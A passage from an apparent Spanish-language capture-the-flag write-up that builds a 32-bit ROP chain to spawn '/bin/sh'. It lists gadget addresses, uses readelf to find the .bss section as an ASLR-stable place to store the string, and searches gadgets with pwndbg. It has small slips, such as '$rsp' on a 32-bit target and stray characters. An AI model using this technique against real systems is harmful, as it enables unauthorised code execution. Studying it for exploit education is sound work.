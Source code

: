 ```c
INT_0x80      = 0x0804a3c2
POP_EAX       = 0x080b073a
POP_ECX       = 0x08049e29
POP_EDX_EBX   = 0x080583b9
```

Yo he hecho una trampita pequeña, he encontrado un gadget que hace un pop `edx; pop ebx; ret` y lo voy a aprovechar para matar a 2 pájaros de un tiro.

Vale, parece que tenemos todo lo que nos hace falta pero nos falta el `/bin/sh`. Aquí se complica el asunto ya que tenemos que pasarle el puntero a donde esté esa cadena. Para complicar mas las cosas como estamos en 32 bits y, como máximo caben 4 bytes por elemento en el stack y en cada registro, no cabría aunque nos dejara poner a secas el string.

Si pensamos un poco se nos puede ocurrir poner `/bin/sh` en el stack al final de nuestro payload y luego buscarlo con el comando `telescope $rsp 20` y apuntarnos la dirección donde empieza. Suena bien, verdad? Si, pero hay un problema, la maquina remota tiene ASLR activado y esto quiere decir que ese puntero del stack va a cambiar en cada ejecución.

Para superar este obstáculo podemos intentar guardar nuestra cadena en la sección .data o .bss del programa, estas secciones de la memoria no cambian con ASLR. Esto se hace de la siguiente manera

Primera tenemos que encontrar la dirección donde empieza alguna de esas secciones de memoria. En este caso voy a utilizar `.bss` pero podéis utilizar la que queráis.

Si hacemos el siguiente comando podemos ver en que dirección empieza cada sección de la memoria del programa:

```c
readelf -S vuln_patched 

There are 29 section headers, starting at offset 0xace68:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
. . .
 4
  [18] .got.plt          PROGBITS        080e5000 09c000 000044 04  WA  0   0  4
  [19] .data             PROGBITS        080e5060 09c060 000ec0 00  WA  0   0 32
  [20] __libc_subfreeres PROGBITS        080e5f20 09cf20 000024 00  WA  0   0  4
  [21] __libc_IO_vtables PROGBITS        080e5f60 09cf60 000354 00  WA  0   0 32
  [22] __libc_atexit     PROGBITS        080e62b4 09d2b4 000004 00  WA  0   0  4
  [23] .bss              NOBITS          080e62c0 09d2b8 000d1c 00  WA  0   0 32
  [24] __libc_freer[...] NOBITS          080e6fdc 09d2b8 000014 00  WA  0   0  4
. . .
```

La primera columna de direcciones es la que tiene la dirección donde empieza la sección.

Ahora que tenemos la dirección tenemos que conseguir colocar `/bin/sh` ahí. Esto se puede hacer con la siguiente regex:

```c
pwndbg> rop --grep 'mov .* \[edx\], eax'c
```
